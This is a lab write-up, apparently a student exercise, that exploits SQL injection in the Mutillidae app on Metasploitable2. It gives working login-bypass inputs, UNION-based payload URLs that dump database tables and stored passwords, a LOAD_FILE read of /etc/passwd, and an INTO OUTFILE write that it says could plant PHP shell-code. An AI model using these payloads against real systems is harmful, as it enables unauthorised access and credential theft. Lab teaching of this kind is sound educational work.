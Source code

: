 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/aff679eb-15fa-4b32-ad63-f84698fe68fd)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/02ef01aa-ce80-40e4-9319-85d1b61c3b2b)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/e4df8614-3bc1-42ab-a32d-c4626319de7e)

Click on the menu Login/Register and register for an account

![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/d368688f-c054-4261-9460-4eb9566a9b33)

Click on the link “Please register here”
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/e71151a7-86d0-41a6-a9f1-5810afb5481e)

Click on “Create Account” to display the following page:
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/54eeb3e5-5141-4560-b3c7-e283931ae3a5)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/57d989f3-90e1-433a-ac5b-6962939e595c)

Click “Login”. The logged in page will show as below: 
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/c7619c90-4741-46fd-9ffd-3c88c5d07f70)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/a770350e-018f-4100-9216-1789471280cb)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/2b95910d-5dc2-401b-9074-78d794a55944)

Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info

After logging out, Now choose the menu as shown below:
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/f1e9c978-4c88-48a2-ab10-92999abba97c)

![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/124908a6-111a-49b7-a478-41790832dd3b)

![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/13aa5f07-2ec6-423e-a142-e6a73372b67e)

![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/e221f697-e759-4e80-8270-640deefe7b66)

![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/f023ff24-aa92-420a-82bc-b4679f7d6fb8)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/2bced6f2-4395-44fc-aafd-e0610242d555)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/f23d6d75-4dd8-40be-a61d-5387f8fd8e7d)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/3e231994-e2d2-4715-a81c-36eefdce7004)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/fa40bbec-2330-4200-be98-7674f3934a02)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/dd857e9b-b1b7-456a-a35d-729c2db9063e)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/07ecece6-104a-473e-a11b-da51c98ad9ef)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/39a94820-ef46-481d-bb57-18159ec68e78)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/7e766ef8-a213-4cc2-bd14-f380908f1f15)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/2779287a-3e4a-49fc-8f65-d44fa96150c7)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/db1d61b4-6db3-41d4-8a87-82f5dba85493)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/3e1b03f8-2101-4069-a7c7-ad54f84ff8f2)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/39ddc2b2-833f-48d0-b582-cb8427e105cc)

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/LakshmanAdhireddy/sqlinjection/assets/118707265/eea228a5-0551-4e9b-8888-ec0a1fadd1ac)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:

The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

